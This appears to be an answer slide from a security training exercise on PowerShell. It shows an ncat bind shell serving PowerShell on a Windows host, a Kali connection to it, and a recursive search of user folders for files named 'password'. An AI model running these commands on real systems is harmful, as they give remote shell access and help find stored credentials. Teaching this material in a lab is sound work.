

PowerShell fun
Answers
On the Windows machine
C:\> ncat -l -p 8080 –e powershell

On Kali
$ nc 10.10.0.5 8080
PS C:\> mkdir temp
PS C:\> echo "[string]" > [file.txt]

As for searching for files
There are several answers
Easy:
PS C:\> ls -r \Users *password*
We may get errors, access denied to folders
Hide those errors to clean up our output
PS C:\> ls -r \Users *password* 2>$null
You can see on the next slide the difference